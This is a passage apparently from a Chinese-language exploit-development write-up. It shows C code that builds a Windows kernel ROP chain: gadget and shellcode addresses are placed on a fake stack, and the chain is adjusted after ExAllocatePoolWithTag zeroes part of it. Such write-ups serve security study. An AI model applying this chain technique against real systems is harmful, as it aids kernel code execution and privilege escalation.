 ```bash
    *(funcaddr*)(stackspace + 0x818 + 0x58) = (funcaddr)shellcode_addr; 

    *(funcaddr*)(stackspace + 0x818 + 0x70) = (funcaddr)pop_r8;
    *(funcaddr*)(stackspace + 0x818 + 0x78) = (funcaddr)sizeof(cmd);
    *(funcaddr*)(stackspace + 0x818 + 0x80) = (funcaddr)ulRtlCopyMemory;
    *(funcaddr*)(stackspace + 0x818 + 0x88) = (funcaddr)jmp_rax;
```

但是进行`ExAllocatePoolWithTag`

[![](assets/1706090578-cba6bb27c2a0f64ba05cae797bef7e6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145353-564bfe5c-ba85-1.png)

打断了 ROP 链，让`rsp+68`的位置的低 32 位清零了，这让我们需要调整这段 rop 链

```bash
*(funcaddr*)(stackspace + 0x818 + 0x50) = (funcaddr)pop_rdx;        //此处被低位被清零
    *(funcaddr*)(stackspace + 0x818 + 0x58) = (funcaddr)shellcode_addr; 
    *(funcaddr*)(stackspace + 0x818 + 0x60) = (funcaddr)pop_rdx;        //恢复 rdx
    *(funcaddr*)(stackspace + 0x818 + 0x68) = (funcaddr)shellcode_addr;

    *(funcaddr*)(stackspace + 0x818 + 0x70) = (funcaddr)pop_r8;
    *(funcaddr*)(stackspace + 0x818 + 0x78) = (funcaddr)sizeof(cmd);
```

[![](assets/1706090578-f9962b94e69bd20eee6d213b5a8cff4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145406-5dfa36d2-ba85-1.png)
